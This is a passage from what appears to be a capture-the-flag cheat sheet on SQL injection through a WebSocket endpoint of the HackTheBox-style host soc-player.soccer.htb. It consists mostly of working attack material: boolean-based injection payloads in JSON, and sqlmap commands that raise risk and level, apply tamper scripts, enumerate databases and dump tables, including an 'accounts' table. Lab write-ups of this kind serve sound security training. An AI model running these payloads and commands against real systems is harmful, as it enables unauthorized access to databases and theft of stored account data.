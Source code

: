 ### Boolean-Based Detection
```json
// True condition
{"id": "92130 or 5=5-- -"}

// False condition  
{"id": "92130 or 5=6-- -"}

// String comparison
{"id": "1' OR 'a'='a'-- -"}
{"id": "1' OR 'a'='b'-- -"}
```

---

## sqlmap with WebSockets

### Basic sqlmap Usage
```bash
# Test WebSocket with JSON payload
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --batch

# With specific risk and level
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --level 5 --risk 3 --batch

# Enable threading for faster execution
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --level 5 --risk 3 --batch --threads 10
```

### Database Enumeration
```bash
# Enumerate databases
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --dbs --batch

# Enumerate tables in specific database
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' -D soccer_db --tables --batch

# Dump specific table
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' -D soccer_db -T accounts --dump --batch

# Dump all data from database
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' -D soccer_db --dump --batch
```

### Advanced sqlmap Options
```bash
# Force specific DBMS
sqlmap -u 'ws://target:9091/' --data '{"id":"*"}' --dbms=mysql --batch

# Custom tamper scripts
sqlmap -u 'ws://target:9091/' --data '{"id":"*"}' --tamper=space2comment --batch

# Specify injection technique
sqlmap -u 'ws://target:9091/' --data '{"id":"*"}' --technique=BT --batch

# Save session
sqlmap -u 'ws://target:9091/' --data '{"id":"*"}' --batch --session-file=session.db
```

---